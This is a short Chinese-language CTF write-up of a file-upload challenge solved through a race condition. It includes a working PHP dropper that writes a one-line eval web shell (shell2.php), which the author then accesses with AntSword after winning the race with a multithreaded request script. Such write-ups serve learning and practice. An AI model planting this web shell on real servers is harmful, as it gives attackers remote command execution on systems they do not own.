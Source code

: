 ### wzsc_文件上传



最开始不知道是条件竞争的题，

dirsearch之后发现了flag.php和upload文件夹，

除了php的文件好像都可以上传上去，所以思路大致是上传一个php，在执行的时候让他写到另一个php一句话木马，从而实现访问

所以写一个php为



```
<?php fputs(fopen("shell2.php","w"),'<?php @eval($_POST["cmd"]); ?>');
phpinfo(); ?>
```

然后再写一个python的多线程访问，只要get到了就可以写入文件了，写的shell2.php用antsword直接连